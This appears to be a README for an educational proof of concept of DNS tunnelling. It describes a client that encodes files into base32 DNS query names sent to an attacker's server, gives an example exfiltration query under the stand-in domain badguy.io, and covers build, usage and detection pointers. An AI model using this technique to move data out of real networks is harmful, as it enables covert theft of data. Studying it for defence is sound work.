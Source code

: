 # DNS Tunneling POC

## Introduction

This is a proof of concept for a DNS tunnelling client and server, for security education. The DNS server implemented here is woefully incomplete, as the point is not to resolve names, but to participate in file transfers. The server only handles A and AAAA queries with a single name, and responds to A queries with the same IP (16.32.64.128), and to AAAA queries with a repsonse indicating an IPv6 address is not available, as per [RFC 4074 section 3](https://datatracker.ietf.org/doc/html/rfc4074#section-3).

## Theory of operation

The `dns_send` client can send a file or standard input to a remote name server controlled by an attacker. Each file transfer is identified by a uuid. Each poayload  of the data transfer  consists of the uuid, a packaet seqence number and 120 bytes of data. The payload is encoded in base 32, then included in a domain name.  This is an example of such a name, which encodes a UUID,. a sequence number and 120 bytes of data:, which obeys all of the rules for an Internet domain name:

```text
QLFGR3VWU5D37KJMLXJOKUKDJERQAAAANNXHIZRIEJLXE33UMUQCKZBAMJ4X.IZLTEB2G6IBFOMQGC5BAN5TGM43FOQQCKZC4NYRCYIDQMF4WY33BMQWT43DF.NZTXI2BMEBTGS3DFNZQW2ZJMBIQCAIBAEAQCAIBAOBQXS3DPMFSC2PTTMVYX.KZLOMNSSAKRAGEZDAKJ3BJ6QU.badguy.io
```

In attack scenario, an ttacker would register the badguy.io domain  (ffrom the name above), point the DNS server for the domain to a server running the  `dns-server` in this peoject, so that it could receive and decode the specially crafted DMS queries. Since each name query is unique, there is no concern with caching.

## Building

Run `make`. This will build `dns-server`  and `dns-send` io the `dist` directory.  See the `Makefile` for additional targets.

## Running

Start the server by running `dns-server`. As the server binds to provolehed port 53, it must be run as root (or sudo). 
The client usgae is as follows:

```shell
dns_send [file [ip]]
```

Without any paranmeters, the program reads from stdin, and uses the default system resolver to eventually reach the attacker DNS server , provided the `dns-send` program is modified to resolve the correct domain (and not badguy.io).

A file name can be specified as the first argument, in which case the file will be transmitted through as many DNS requests as needed.

An IP address can be specified as the second parameter, which is useful in cases where you do not want to set up a domainm and a server running `'dns-server`. In that case, you can run `dns-server` on any machine, including the same machine on which `dns-send` is running, and point `dns-send` at the server. While this is not a realistic attack scenario in most cases, it will demonstrate transmitting large amounts of data over DNS.

### Running on Linux

On systems using `systemd`, you will have to temporarily turn off the systemd resolver to free up port 53 (used by the POC server).

```shell
sudo systemctl stop systemd-resolved
```

Since the POC server really cannot resolve anything, you may want to edit `/etc/resolv.conf` to point to a real server, such as `8.8.8.8`

### Running on WSL

WSL requires Internet Connection Sharing which uses port 53. It is therefore not possible to run the server.

## Detecting DNS tunnelling
Due to nature of DNS tunneling, there are serveral methods to detect it, and thereafter prenvent it. See the [Deteing DNS Tunelling ](https://www.sans.org/white-papers/34152/) whitepaper from the SANS institute for examples.


## Dependencies

- Debian package `uuid-dev`
- Debian package `libbsd-dev` (not needed for BSD)

## Included open source code

Base32 encoder/decoder from [Google Authenticator PAM module](https://github.com/google/google-authenticator-libpam)


## References

- [TCP/IP Illustrated Volume 1, W. Richard Stevens](https://www.amazon.com/TCP-Illustrated-Vol-Addison-Wesley-Professional/dp/0201633469)
- https://courses.cs.duke.edu//fall16/compsci356/DNS/DNS-primer.pdf
- [RFC 4074](https://datatracker.ietf.org/doc/html/rfc4074#)
- [RFC1034](https://datatracker.ietf.org/doc/html/rfc1034)
